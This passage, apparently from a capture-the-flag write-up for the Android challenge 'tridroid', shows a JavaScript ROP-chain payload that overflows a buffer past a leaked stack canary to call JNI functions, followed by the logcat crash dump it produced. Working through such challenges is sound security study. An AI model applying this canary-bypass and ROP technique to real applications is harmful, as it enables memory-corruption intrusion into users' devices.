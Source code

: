 ```js
var L_pop_rsi = libc_base + 0x42d38n;
var L_pop_rdx = libc_base + 0x46175n;
var L_pop_rcx = libc_base + 0x42e58n;

var payload = "00".repeat(0x28);
payload += canary
payload += p64(stack)
payload += p64(L_pop_rdi) // rop begin
payload += p64(JNIEnv)
payload += p64(L_pop_rsi)
payload += p64(jobj)
payload += p64(L_pop_rdx)
payload += p64(heap_n + 0x3070n)
payload += p64(L_pop_rcx)
payload += p64(heap_n + 0x3080n)
payload += p64(lib_base + 0xfa0n)
write(heap_n+0x2120n, payload) // modify_element bof
```
That's it and after running that we got a crash immediately.
```
07-18 23:31:46.319 13848 13848 I chromium: [INFO:CONSOLE(46)] "heap 0x7fd461fea970", source:  (46)
07-18 23:31:46.319 13848 13848 I chromium: [INFO:CONSOLE(47)] "heap_base 0x7fd461fea000", source:  (47)
07-18 23:31:46.330 13848 13848 I chromium: [INFO:CONSOLE(70)] "lib 0x7fd3e9d4e000", source:  (70)
07-18 23:31:46.339 13848 13848 I chromium: [INFO:CONSOLE(74)] "canary a60b291c6d9dcf40", source:  (74)
07-18 23:31:46.339 13848 13848 I chromium: [INFO:CONSOLE(76)] "stack 0x7fd3e5ec4c30", source:  (76)
07-18 23:31:46.342 13848 13848 I chromium: [INFO:CONSOLE(79)] "JNIEnv 0x7fd501f7a0f0", source:  (79)
07-18 23:31:46.345 13848 13848 I chromium: [INFO:CONSOLE(82)] "jobj 0x7fd3e5ec4c54", source:  (82)
07-18 23:31:46.356 13848 13848 I chromium: [INFO:CONSOLE(90)] "libc 0x7fd6d2095000", source:  (90)
...
07-18 23:31:46.431 13946 13946 F DEBUG   : Build fingerprint: 'google/sdk_gphone_x86_64_arm64/generic_x86_64_arm64:11/RSR1.201211.001.A1/7054069:userdebug/dev-keys'
07-18 23:31:46.431 13946 13946 F DEBUG   : Revision: '0'
07-18 23:31:46.431 13946 13946 F DEBUG   : ABI: 'x86_64'
07-18 23:31:46.431 13946 13946 F DEBUG   : Timestamp: 2021-07-18 23:31:46+0700
07-18 23:31:46.431 13946 13946 F DEBUG   : pid: 13848, tid: 13942, name: JavaBridge  >>> com.google.ctf.pwn.tridroid <<<
07-18 23:31:46.431 13946 13946 F DEBUG   : uid: 10154
07-18 23:31:46.431 13946 13946 F DEBUG   : signal 11 (SIGSEGV), code -6 (SI_TKILL), fault addr --------
07-18 23:31:46.431 13946 13946 F DEBUG   :     rax 40cf9d6d1c290b01  rbx 00007fd3ea34faba  rcx 40cf9d6d1c290ba6  rdx 00007fd461fec060
07-18 23:31:46.431 13946 13946 F DEBUG   :     r8  00007fd3e5ec4b80  r9  00007fd4c203eb60  r10 0000000000000003  r11 00007fd6d20b5d64
07-18 23:31:46.431 13946 13946 F DEBUG   :     r12 00007fd501f7a0f0  r13 00007fd3e5ec4d10  r14 00007fd3e5ec4c54  r15 00007fd441801171
07-18 23:31:46.431 13946 13946 F DEBUG   :     rdi 00007fd441801171  rsi 00007fd3e5ec4c54
07-18 23:31:46.431 13946 13946 F DEBUG   :     rbp 00007fd3e5ec4b38  rsp 00007fd3e5ec4a78  rip 00007fd441b49f5c
07-18 23:31:46.434 13946 13946 F DEBUG   : backtrace:
07-18 23:31:46.434 13946 13946 F DEBUG   :       #00 pc 0000000000400f5c  /apex/com.android.art/lib64/libart.so (art::(anonymous namespace)::CheckJNI::GetObjectClass(_JNIEnv*, _jobject*)+60) (BuildId: 7fbaf2a1a3317bd634b00eb90e32291e)
07-18 23:31:46.434 13946 13946 F DEBUG   :       #01 pc 0000000000001026  /data/app/~~QjnUt2yMxnIHaDxEzARg1A==/com.google.ctf.pwn.tridroid-ZQ4iAOdeRcHj4_SOjHAghQ==/base.apk!libtridroid.so (offset 0x3a1000) (_JNIEnv::GetObjectClass(_jobject*)+38) (BuildId: 11cc48f3bf4883b88944d5a6b36621678289107e)
07-18 23:31:46.434 13946 13946 F DEBUG   :       #02 pc 0000000000000fc4  /data/app/~~QjnUt2yMxnIHaDxEzARg1A==/com.google.ctf.pwn.tridroid-ZQ4iAOdeRcHj4_SOjHAghQ==/base.apk!libtridroid.so (offset 0x3a1000) (invokeJavaMethod(_JNIEnv*, _jobject*, char const*, char const*)+36) (BuildId: 11cc48f3bf4883b88944d5a6b36621678289107e)
```